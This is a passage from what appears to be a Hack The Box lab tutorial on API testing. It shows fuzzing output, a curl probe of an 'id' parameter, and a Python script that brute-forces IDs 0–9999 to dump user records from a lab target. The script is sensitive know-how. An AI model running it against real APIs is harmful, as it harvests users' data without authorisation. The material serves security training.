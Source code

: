     :: Progress: [2567/2588] :: Job [1/1] :: 2103 req/sec :: Duration: [0:00:01] :: Error
    :: Progress: [2588/2588] :: Job [1/1] :: 2120 req/sec :: Duration: [0:00:01] :: Error
    :: Progress: [2588/2588] :: Job [1/1] :: 2120 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
    ```
    
    It looks like _id_ is a valid parameter. Let us check the response when specifying _id_ as a parameter and a test value.
    
    ```
    KareemAlsadeq@htb[/htb]$ curl http://<TARGET IP>:3003/?id=1
    [{"id":"1","username":"admin","position":"1"}]
    ```
    
    Find below a Python script that could automate retrieving all information that the API returns (save it as `brute_api.py`).
    
    Code: python
    
    ```
    import requests, sys
    
    def brute():
        try:
            value = range(10000)
            for val in value:
                url = sys.argv[1]
                r = requests.get(url + '/?id='+str(val))
                if "position" in r.text:
                    print("Number found!", val)
                    print(r.text)
        except IndexError:
            print("Enter a URL E.g.: http://<TARGET IP>:3003/")
    
    brute()
    ```
    
    - We import two modules _requests_ and _sys_. _requests_ allows us to make HTTP requests (GET, POST, etc.), and _sys_ allows us to parse system arguments.
    - We define a function called _brute_, and then we define a variable called _value_ which has a range of _10000_. _try_ and _except_ help in exception handling.
    - _url = sys.argv[1]_ receives the first argument.
    - _r = requests.get(url + '/?id='+str(val))_ creates a response object called _r_ which will allow us to get the response of our GET request. We are just appending _/?id=_ to our request and then _val_ follows, which will have a value in the specified range.
    - _if "position" in r.text:_ looks for the _position_ string in the response. If we enter a valid ID, it will return the position and other information. If we don't, it will return _[]_.
    
    The above script can be run, as follows.
    
    ```
    KareemAlsadeq@htb[/htb]$ python3 brute_api.py http://<TARGET IP>:3003
    Number found! 1
    [{"id":"1","username":"admin","position":"1"}]
    Number found! 2
    [{"id":"2","username":"HTB-User-John","position":"2"}]
    ...
    ```
    